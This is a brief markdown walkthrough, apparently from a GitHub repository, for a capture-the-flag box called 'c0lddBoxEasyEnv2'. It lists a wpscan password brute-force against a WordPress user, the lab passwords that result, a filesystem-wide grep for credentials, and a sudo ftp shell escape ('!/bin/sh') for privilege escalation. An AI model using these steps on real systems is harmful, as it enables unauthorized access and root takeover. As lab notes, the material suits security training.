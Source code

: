 # c0lddBoxEasyEnv2

### WordPress Enum
 - ffuf
 - wpscan --url {} -w  {} --usernames c0ldd
   - c0ldd:9876543210


### Find about user data 
- grep -Hrn "c0ldd" / 2>/dev/null 
- c0ldd:cybersecurity

### Privileges
 - sudo /usr/bin/ftp
 - !/bin/sh
